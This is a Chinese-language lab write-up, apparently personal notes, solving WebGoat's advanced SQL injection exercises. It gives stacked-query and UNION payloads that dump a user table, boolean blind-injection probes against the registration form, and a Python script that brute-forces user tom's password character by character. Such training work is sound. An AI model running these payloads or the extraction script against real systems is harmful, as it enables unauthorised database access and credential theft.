 # 1  

# 2  


# 3  
已知一个表要查另一个表的全部信息  

![alt text](image.png)  

1. 直接用下面语句注入  

```  
d'; select * from user_system_data;--
```  
![alt text](image-1.png)  

2. 使用union，前后查询的数据类型要对应  
```
d' union select userid,user_name,password,password,password,password,userid from user_system_data;--
```  

![alt text](image-2.png)  



# 4  
介绍了盲注和基于时间的盲注。  


# 5  

要以tom的身份登录，虽然题目是大写，但实际上是小写。  

![alt text](image-3.png)  

1. 在register界面注册tom，提示已经注册过  
![alt text](image-4.png)  
说明在注册之前，肯会在数据库中查找是否已经存在相同的用户名，也许可以注入。  

2. 当用户名为(tom' and '1'='1)时，提示已经存在，当用户名为(tom' and '1'='2)时，提示注册好了，可以登录。  

![alt text](image-6.png)  
![alt text](image-5.png)

说明如果查询为真，那么提示已经存在，如果为假的，那么提示创建好了。  

3. 已经知道tom是存在的，那么肯定也存了他的密码，那么要看密码是用什么名字存的，用以下方式注入  
```
tom' and password is not null--
```  
存密码不一定使用password，也可能是别的名字。这里就是password，并且提示已经存在了。如果没猜对，可以尝试字典爆破。  

4. 可以尝试爆破出密码的长度  
![alt text](image-10.png)  
发送后抓请求,设置payload，爆破，我设置从1到50  
![alt text](image-11.png)  
然后给响应大小排序，找到爆破结果，密码长度23  
![alt text](image-12.png)  

5. 接下来可以去爆破密码的每一位,就是将密码的每一位都取出，然后看是什么字符，比如注入substring(password,1,1)=a，看响应的结果判断第一位是不是a，同理其他字母比较，一但是真就确定了这一位,执行下面脚本可以爆破出密码,我是参考了别人的脚本。如果是真，会返回"already exists please",如果找到这个字符就说明找到了当前位的字符，用res.text.find()函数来查找字符。  
```python
import requests
str_list = [chr(i) for i in range(97,123)]

url = "http://192.168.88.1:8080/WebGoat/SqlInjectionAdvanced/challenge"

password = ""
for i in range(1,24):
    for s in str_list:
        putdata =f"username_reg=tom' and substring(password,{i},1)='{s}'-- &email_reg=tom%40tom.com&password_reg=123&confirm_password_reg=123"
        headers = {"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8","Origin":"http://192.168.88.1:8080","Accept-Encoding":"gzip, deflate","Cookie":"JSESSIONID=-6nOkXrcqqrouZwvlF8DpW7jzUOa6HtYvse2vugP","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36","Accept-Language":"zh-CN,zh;q=0.9","Referer":"http://192.168.88.1:8080/WebGoat/start.mvc?username=webgoat"}
        res = requests.put(url,putdata,headers=headers)
        resp = res.text.find("already exists please")
        if resp != -1:
            password += s
            continue


print(password)
```  
![alt text](image-13.png)








